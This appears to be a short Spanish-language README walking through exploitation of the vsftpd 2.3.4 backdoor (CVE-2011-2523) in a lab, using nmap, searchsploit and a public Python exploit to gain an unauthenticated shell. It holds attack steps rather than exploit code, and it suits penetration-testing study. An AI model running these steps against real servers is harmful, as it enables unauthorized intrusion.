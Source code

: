 # Vulnerabilidad CVE-2011-2523 
<p>vsftpd 2.3.4 es una version vulnerable en donde existe una puerta trasera a traves del puerto 6200/tcp en donde puedes ejecutar comando sin
autenticación. </p>

## Requisitos a tener en cuenta
- python
- nmap
- searchsploit

## Metodos a seguir.

<p>1. Se realiza un escaneo de puertos, en este caso con nmap</p>

```
nmap -sCV -sS -n -Pn -p- [IP]

```
<p>2. Si tenemos el puerto 21/TCP abierto con la versión "vsftpd 2.3.4" podemos realizar un ataque a traves del servicio
en donde se encuentra una vulnerabilidad en el puerto 6200</p>

```
Nmap scan report for 172.17.0.2
Host is up (0.0000070s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 2.3.4

```
<p>3. Ahora debemos encontrar algun exploit para esta vulnerabilidad utilizando el siguiente comando te puede decir que
 exploits tiene ese servicio y en que version</p>

```
searchsploit [nombre del servicio]

```

<p>Buscamos el exploit de la version correcta y lo descargamos en nuestro directorio</p>

```
searchsploit -m [path]

```

<p>Ahora se ejecutamos el comando en nuestro directorio</p>

```
python2 49757.py [IP]

```

<p> y finalmente estamos dentro para comprobar quien eres puedes usar el comando</p>

```
whoami

```
